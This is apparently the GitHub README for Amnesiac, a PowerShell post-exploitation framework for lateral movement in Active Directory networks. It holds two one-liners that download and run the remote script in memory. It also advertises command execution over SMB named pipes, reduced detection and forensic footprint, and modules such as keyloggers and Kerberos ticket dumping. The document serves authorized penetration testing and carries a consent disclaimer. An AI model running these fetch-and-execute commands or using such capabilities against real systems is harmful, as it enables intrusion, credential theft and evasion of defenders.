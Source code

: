 ![Amnesiac3](https://github.com/Leo4j/Amnesiac/assets/61951374/f99be249-3270-4c92-ab27-516d2b8db7a3)
![279440077-678ce24e-70c4-47b1-b595-ca0835ba35d9](https://github.com/Leo4j/Amnesiac/assets/61951374/067080b7-b115-41e4-994e-60c0335c05dc)

# Amnesiac

`Amnesiac` is a post-exploitation framework designed to assist with lateral movement within active directory environments.

Amnesiac is being developed to bridge a gap on Windows OS, where post-exploitation frameworks are not readily available unless explicitly installed. In fact, it is entirely written in PowerShell, and can be loaded and executed in memory, just like any other PowerShell script.

If you find Amnesiac valuable and you like this project, please consider giving us a star on GitHub. Your support motivates the developer to continue improving and maintaining this project.

Please read the documentation to get the best out of Amnesiac: https://leo4j.gitbook.io/amnesiac/

## Load and run

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Amnesiac/main/Amnesiac.ps1');Amnesiac
```

If you need to run Amnesiac through a shell, use Amnesiac_ShellReady.ps1 | No colors, shell compatible

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Amnesiac/refs/heads/main/Amnesiac_ShellReady.ps1');Amnesiac
```

## Key Features 

### Command Execution over Named-Pipes (SMB)

Amnesiac sends commands and receives outputs through Named Pipes, ensuring discreet and efficient post-exploitation activities.

### No Installation Required

Unlike traditional frameworks, Amnesiac does not require installation. It operates entirely in memory, reducing the risk of detection and forensic footprint.

### User-Friendly Framework

Amnesiac is designed with usability in mind. It provides a user-friendly interface, making it accessible and efficient for both beginners and experienced users.

### Versatile Post-Exploitation Modules

Amnesiac comes equipped with an array of post-exploitation modules, ranging from keyloggers to Kerberos ticket dumping tools. These modules can be seamlessly integrated into your testing and assessment workflows.

### Acknowledgments

Amnesiac relies on few other projects for its modules. In each module, you'll find reference link information, ensuring proper attribution to the original creators.

### Support and Contributions

Contributions and feedback from the community are highly encouraged and appreciated.

### Preview

![image](https://github.com/Leo4j/Amnesiac/assets/61951374/895add16-3775-4f9e-9fef-b21739f206e0)

### License

Amnesiac is distributed under the GPL-3.0 License. Please review the license for details on usage and redistribution.

### Disclaimer

**Amnesiac is intended exclusively for research, education, and authorized testing. Its purpose is to assist professionals and researchers in identifying vulnerabilities and enhancing system security.**

**Users must secure explicit, mutual consent from all parties involved before utilizing this tool on any system, network, or digital environment, as unauthorized activities can lead to serious legal consequences. Users are responsible for adhering to all applicable laws and regulations related to cybersecurity and digital access.**

**The creator of Amnesiac disclaims liability for any misuse or illicit use of the tool and is not responsible for any resulting damages or losses.**

**THE SOFTWARE IS PROVIDED “AS IS,” WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE, AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES, OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT, OR OTHERWISE, ARISING FROM, OUT OF, OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.**


